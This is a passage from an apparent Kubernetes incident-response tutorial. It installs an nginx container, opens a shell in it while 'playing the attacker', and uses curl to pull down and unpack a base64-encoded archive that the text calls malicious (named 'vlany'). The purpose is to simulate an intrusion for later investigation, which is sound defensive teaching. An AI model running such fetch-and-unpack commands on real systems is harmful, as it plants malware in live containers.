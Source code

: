 We will go now go through a incident response workflow and how you can investigate an event.

Let's use Helm to install a nginx container:

`helm repo add bitnami https://charts.bitnami.com
helm install --name example bitnami/nginx`

You can check that the container is running, and the name of the pod by running  
`kubectl get pod -l app=example-nginx`

Now let's play the attacker, and spawn a shell:  
`kubectl exec -it YOUR_POD_NAME -c example-nginx -- /bin/bash`  
You can get the value of `YOUR_POD_NAME` from the previous command.

You will be presented with a command prompt similar to this:  
`I have no name!@example-nginx-769dfcf684-l4m67:/app$`

You can execute a few commands inside the container, or even download some malicious file.  
`cd /tmp &&
curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz &&
tar zxvf vlany-master.tar.gz`
